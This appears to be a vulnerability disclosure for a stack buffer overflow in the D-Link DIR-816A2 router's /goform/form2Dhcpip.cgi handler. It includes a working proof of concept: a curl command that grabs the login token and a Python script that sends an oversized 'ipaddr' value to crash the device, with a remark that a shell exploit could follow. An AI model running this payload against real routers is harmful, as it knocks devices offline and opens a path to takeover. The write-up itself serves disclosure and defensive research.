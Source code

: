 # DIR-816A2_FWv1.10CNB05_R1B011D88210.img Stack overflow vulnerability

## Overview

- Manufacturer's address：http://www.dlink.com.cn/
- Firmware download address ： http://www.dlink.com.cn/techsupport/ProductInfo.aspx?m=DIR-816

## Affected version

Below is the latest firmware

![](img/1.png#center)

## Vulnerability details

Vulnerability occurs in /goform/form2Dhcpip.cgi. V21 suffers from buffer overflow when lan_assignment is update. The content obtained by the program through ipaddr and nvmacaddr parameters is passed to V2 and V3, and then V3 and V2 are added to the stack of V21. There is no size check, so there is a stack overflow vulnerability.



![](img/2.png#center)
![](img/3.png#center)

## Vulnerability verify

![](img/4.png#center)

![](img/5.png#center)

## POC

Gets the token ID

```
curl http://192.168.0.1/dir_login.asp | grep tokenid
```

Run poc

```python
import requests


tokenid = ''

url = 'http://192.168.0.1/goform/form2Dhcpip.cgi'

payload = b'a' * 10000

data = {
    'tokenid': tokenid,
    'lan_assignment': 'update',
    'nvmacaddr': 'AAAA',
    'ipaddr': payload
}

print('payload sending...')
r = requests.post(url, data)
print('end')
```

You can see the router crash, and finally you can write an exp to get a shell